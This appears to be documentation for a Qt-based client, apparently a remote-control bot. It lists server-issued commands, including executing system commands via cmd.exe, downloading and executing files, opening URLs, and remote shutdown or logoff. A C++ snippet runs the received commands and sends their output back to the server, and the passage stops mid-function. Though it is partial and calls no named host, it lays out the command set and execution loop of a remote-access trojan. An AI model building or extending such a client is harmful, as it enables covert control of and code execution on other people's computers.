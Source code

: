 ```json
{
    "type": "error",
    "message": "Error description",
    "code": "ERROR_CODE",
    "timestamp": "2024-01-01T00:00:00.000Z"
}
```

---

## Command Execution Flow

### 1. Command Types

The Qt client supports various command types:

#### System Commands:
- `execute`: Execute system command via cmd.exe
- `shutdown`: System shutdown with delay
- `restart`: System restart with delay
- `hibernate`: System hibernate
- `logoff`: User logoff
- `abort`: Abort shutdown

#### UI Commands:
- `messagebox`: Show message box
- `visit_page`: Open URL in default browser
- `close_bot`: Close client application

#### File Operations:
- `download`: Download file from URL
- `download_execute`: Download and execute file

### 2. Command Execution Process

```cpp
void MainWindow::executeCommand(const QString& command, const QString& taskId) {
    // Create process to execute command
    QProcess *process = new QProcess(this);
    
    // Set timeout and capture output
    process->setProcessChannelMode(QProcess::MergedChannels);
    
    // Handle process completion
    connect(process, QOverload<int, QProcess::ExitStatus>::of(&QProcess::finished),
        [this, process, taskId](int exitCode, QProcess::ExitStatus exitStatus) {
            QString output = process->readAllStandardOutput();
            QString errorOutput = process->readAllStandardError();
            
            // Combine output and error
            QString fullOutput = output;
            if (!errorOutput.isEmpty()) {
                fullOutput += "\n[STDERR]\n" + errorOutput;
            }
            
            // Send results back to server
            if (exitCode == 0 || !fullOutput.isEmpty()) {
                sendCommandOutput(taskId, fullOutput);
            } else {
                sendErrorResponse(taskId, "Command failed with exit code " + QString::number(exitCode));
            }
            
```